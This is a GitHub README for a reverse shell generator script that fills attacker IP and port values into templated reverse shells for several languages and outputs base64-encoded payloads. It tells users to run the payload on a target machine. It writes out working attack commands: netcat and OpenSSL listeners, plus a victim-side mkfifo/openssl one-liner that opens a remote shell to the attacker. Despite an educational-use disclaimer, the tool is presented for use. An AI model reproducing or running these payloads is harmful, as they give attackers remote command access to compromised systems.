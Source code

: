 # RSE - Reverse Shell Generator

![RSE-screenshot-1](img/rse-screenshot-1.png)

![RSE-screenshot-1](img/rse-screenshot-2.png)


## What id RSE? Reverse Shell Engine 
This tool is just a compilation of many reverse shells found on the internet and some other contributions.

A reverse shell is a remote control technique where a target computer, after being compromised by an attacker's code, establishes a connection back to the attacker's machine. This allows the attacker to gain command-line access and control over the target system, often used in cyberattacks for remote exploitation or unauthorized access. Reverse shells are a method to bypass certain network restrictions, but their use should strictly adhere to ethical and legal guidelines.

This tool is just a quick help to handy copy and paste any revshell you need at any moment in seconds. 

# Installation

Just clone this repository and you're ready to go.

`git clone git@github.com:zpol/reverse-shell-engine.git`

and

`cd reverse-shell-engine`


# How it works

## Quickstart 

Just run: 

`./rse.sh` 

The application will start by promting a message asking for the IP/hostname and port where to listen to. 
Once the application has this data it will show you a selector where choose from different reverse shells for different languages and operating systems (note that you can search/filter by start typing). 

After that the application will craft that with the specified parameters and output the revershe shell and a base64 encoded version.

Use the payload generated to execute that in the target machine. You will need to previously have a listener in that IP and PORT you specified when creating the payload. In most cases a simple netcat will do the trick: `nc -l -p <port>`


## Reverse Shell types and how they work: 

In most cases `ncat` or `nc` will work but in some cases you will need to setup some stuff before being able to accept an incomming connection with some revshell types. 

So for the most cases you can just use on your listenning machine something like: 

`nc -l -p <port>`

When the client makes connection to your server you will be able to execute some commands on the other side.

### OpenSSL
```
user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days
user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port <port>
```
or
```
user@attack$ ncat --ssl -vv -l -p <port>
user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ip>:<port> /tmp/s; rm /tmp/s
```
TLS-PSK (does not rely on PKI or self-signed certificates)
```
openssl rand -hex 48


# server (attacker)
export LHOST="*"; export LPORT="4242"; export PSK="replacewithgeneratedpsk"

# client (victim)
export RHOST="10.0.0.1"; export RPORT="4242"; export PSK="replacewithgeneratedpsk"
```


## Some more information

In the root of the repository you can find the following files: 

```
├── img                                     (some images)
├── README.md           
├── rsh.sh                                  (main program)
└── tpl                                     (templates dir)
    ├── index                               (template index)
    ├── linux-bash-tcp-noenc-0.tpl          (template)
    ├── linux-bash-tcp-noenc-1.tpl
    ├── linux-bash-tcp-noenc-2.tpl
    ├── linux-bash-udp-noenc-0.tpl
    ├── linux-perl-tcp-noenc-0.tpl
    ├── linux-perl-tcp-noenc-1.tpl
    ├── linux-python-tcp-noenc-0.tpl
    ├── linux-python-tcp-noenc-1.tpl
    ├── linux-python-tcp-noenc-2.tpl
    ├── linux-python-tcp-noenc-3.tpl
    ├── windows-perl-tcp-noenc-0.tpl
    ├── windows-powershell-tcp-noenc-0.tpl
    ├── windows-pyton-tcp-noenc-0.tpl
    └── windows-ruby-tcp-noenc-0.tpl

```

The index file is used to show all the options when selecting the reverse shell template. 
This file is automatically creaded every time the program is executed so if you create new payloads under the `tpl` folder there's no need to update the index since it's done automatically.

# Contribute

Thank you for considering contributing to this project! Here's how you can get started:

- Contact the author
- Feel free to report any issue, improvement or suggestion
- Fork the repository and create your branch from `main`.
- Clone the repository to your local machine.
- Make your changes and commit them with descriptive messages.
- Push your changes to your fork.
- Create a pull request (PR) to our `main` branch.
- Be patient! We'll review your PR and provide feedback.

Please make sure to follow our [code of conduct](CODE_OF_CONDUCT.md) and our [contribution guidelines](CONTRIBUTING.md). We appreciate your help!



 

 # ⚠️ DISCLAIMER 
## Educational Use Only

The use of this tool or software is intended solely for educational and learning purposes. 

It is not intended for any illegal, unethical, or malicious activities. By using this tool, you agree that:

You will use it exclusively for educational and non-malicious purposes. You will not engage in any illegal or harmful activities using this tool.You understand that the tool is provided as-is, without any warranties or guarantees of any kind.You accept full responsibility for any actions you undertake with this tool and any consequences that may arise.You release the creators, maintainers, and distributors of this tool from any legal liability or responsibility for its use.You will comply with all applicable laws and regulations while using this tool. Please be aware that misuse of this tool may have serious legal and ethical consequences. Always ensure that you have the appropriate permissions and consent before using it in any context.

By using this tool, you acknowledge and agree to the terms and conditions outlined above.
